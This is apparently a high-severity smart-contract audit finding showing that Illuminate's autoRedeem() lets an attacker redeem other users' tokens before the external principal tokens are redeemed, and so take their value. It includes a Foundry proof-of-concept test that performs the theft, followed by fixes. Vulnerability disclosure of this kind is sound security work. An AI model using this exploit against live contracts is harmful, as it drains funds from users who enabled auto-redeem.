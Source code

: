 Holmgren

high

# autoRedeem() is fundamentally unsafe because it's possible before redeeming external principal tokens

## Summary

`autoRedeem()`ing other users is possible before the external principal tokens have been redeemed.

## Vulnerability Detail

If any user enabled auto-redeem, an attacker can auto-redeem that user's Illuminate tokens before performing redemption of the external principal tokens. Thus auto-redemption of the honest user will happen at an artificially low valuation. A sophisticated attacker can make sure that this happens in the first block after maturity of the external principal tokens. The attacker can then redeem his own Illuminate at an increased valuation.

## Impact

For any user that enables autoRedeem, part of his redemption can be easily stolen.

## Code Snippet
PoC, add this to `test/fork/Redeemer.t.sol`:
```solidity
    function testAutoRedeem_exploit() public {
        deployMarket(Contracts.USDC, 0);

        address user = 0x7111F9Aeb2C1b9344EC274780dc9e3806bdc60Ef;
        address attacker = address(123456);

        address illuminateToken = mp.markets(Contracts.USDC, maturity, 0);
        address yieldToken = Contracts.YIELD_TOKEN;

        uint256 attackersBalance = 1 wei;

        // starting balances
        deal(illuminateToken, user, startingBalance, true);
        // The attacker has some tiny amount of Illuminate token
        deal(illuminateToken, attacker, attackersBalance, true);
        // They both got their Illuminate by lending to YieldSpace
        deal(yieldToken, address(l), startingBalance + attackersBalance);

        vm.startPrank(address(l));
        IERC20(yieldToken).approve(address(r), type(uint256).max);
        vm.stopPrank();

        vm.startPrank(user);
        // The user opts-in to autoRedeem()
        IERC20(Contracts.USDC).approve(address(r), startingBalance);
        vm.stopPrank();

        // Right at maturity
        vm.warp(IYieldToken(yieldToken).maturity());
        vm.startPrank(attacker);
        // The attacker auto-redeems all the users that can be auto-redeemed before anyone has redeemed the external Principal Token
        address[] memory onBehalfOf = new address[](1);
        onBehalfOf[0] = user;
        r.autoRedeem(Contracts.USDC, maturity, onBehalfOf);

        // Now that other users no longer have their Illuminate token, the
        // attacker redeems the external principal tokens
        r.redeem(2, Contracts.USDC, maturity);

        // And the attacker redeems his own Illuminate tokens
        r.redeem(Contracts.USDC, maturity);
        vm.stopPrank();

        // The honest user didn't receive any USDC
        assertEq(IERC20(Contracts.USDC).balanceOf(user), 0);
        // And has also lost all his Illuminate
        assertEq(IERC20(illuminateToken).balanceOf(user), 0);
        // The attacker has more than startingBalance of USDC, even though he
        // never owned that much Illuminate
        assertGt(IERC20(Contracts.USDC).balanceOf(attacker), startingBalance);
    }
```

## Tool used

Manual Review

## Recommendation

* Remove `autoRedeem()`, or
* At the beginning of `autoRedeem()` call the `redeem()` method for all the external principal tokens